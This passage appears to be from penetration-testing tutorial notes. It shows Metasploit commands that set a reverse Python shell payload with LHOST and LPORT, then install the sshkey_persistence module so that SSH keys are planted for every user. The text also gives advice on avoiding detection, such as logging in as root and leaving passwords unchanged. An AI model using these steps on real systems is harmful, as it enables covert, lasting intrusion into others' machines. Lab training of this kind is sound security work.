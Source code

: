And we can use the Tab auto completion feature to specify the payloads that we can use in this case.

```
set SESSION 4
exploit
set payload cmd/unix/reverse_python
show options
set LHOST 192.182.80.2
set LPORT 4422
exploit
info
set target 3
exploit
set target 4
exploit
```

Let's take a look at the model or the technique that I recommend whenever it comes down to establishing persistence on a Linux system.

```
search platform:linux persistence
```

And the reason for that is fairly simple. Whenever we set up persistence, we also want to be as clandestine as possible in regards to being detected.

[SSH Key Persistence](https://www.rapid7.com/db/modules/post/linux/manage/sshkey_persistence/)

SSH Key Persistence

This module will add an SSH key to a specified user (or all), to allow remote login via SSH at any time.

SSH 密钥持久性

该模块将为指定用户（或所有用户）添加 SSH 密钥，以允许随时通过 SSH 进行远程登录。

The way this module works is it will set up a private and public SSH key pair and will add the public key into the home directories of all the user accounts on the system. And will then provide us with the private key. And we can utilize that private key to authenticate to any of the user accounts on the system without providing a password. So, we never want to change the passwords on the system in regards to the user account. So, we also have the ability to change the root user password. But that would be a very strong indicator of compromise.

```
use post/linux/manage/sshkey_persistence
show options
set CREATESSHFOLDER true
```
In some cases, the target system may not have the SSH folder already created.

```
set SESSION 4
info
```

This is very difficult to detect because the SSH public key that's been added to the home directory of the users is something that is not frequently accessed by the users on the system. And this doesn't leave any indicator of compromise in regards to the process tree or any other artifacts apart from the fact that a system administrator can view who is currently logged on. But if we log in as the root user, then we might be able to avoid detection. 
